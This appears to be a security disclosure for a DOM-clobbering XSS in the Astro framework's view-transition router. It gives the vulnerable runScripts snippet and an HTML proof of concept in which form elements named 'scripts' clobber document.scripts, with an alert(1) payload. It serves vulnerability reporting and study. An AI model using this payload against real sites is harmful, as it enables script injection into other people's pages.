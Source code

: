 ## astro

### Meta

+ Library: astro
+ Stars: 45.7K
+ Version: v4.5.9
+ Payload: ```<form name="scripts">alert(1)</form><form name="scripts">alert(1)</form>```
+ Impact: XSS
+ CVE: N/A
+ Status: Reported
+ Foundby: TheHulk


### Library

URL: 
+ `https://github.com/withastro/astro`


### Vulnerable Code Snippet

```javascript
// https://github.com/withastro/astro/blob/7814a6cad15f06931f963580176d9b38aa7819f2/packages/astro/src/transitions/router.ts#L135-L156
function runScripts() {
	for (const script of Array.from(document.scripts)) {
		if (script.dataset.astroExec === '') continue;
		const type = script.getAttribute('type');
		if (type && type !== 'module' && type !== 'text/javascript') continue;
		const newScript = document.createElement('script');
		newScript.innerHTML = script.innerHTML;
		for (const attr of script.attributes) {
			newScript.setAttribute(attr.name, attr.value);
		}
		newScript.dataset.astroExec = '';
		script.replaceWith(newScript);
	}
}

runScripts();
```

### PoC
```html

<!--Library-->
<script>
function runScripts() {
	for (const script of Array.from(document.scripts)) {
		if (script.dataset.astroExec === '') continue;
		const type = script.getAttribute('type');
		if (type && type !== 'module' && type !== 'text/javascript') continue;
		const newScript = document.createElement('script');
		newScript.innerHTML = script.innerHTML;
		for (const attr of script.attributes) {
			newScript.setAttribute(attr.name, attr.value);
		}
		newScript.dataset.astroExec = '';
		script.replaceWith(newScript);
	}
}

runScripts();
</script>
<!--Library-->

<!--Payload-->
<form name="scripts">alert(1)</form>
<form name="scripts">alert(1)</form>
<!--Payload-->
```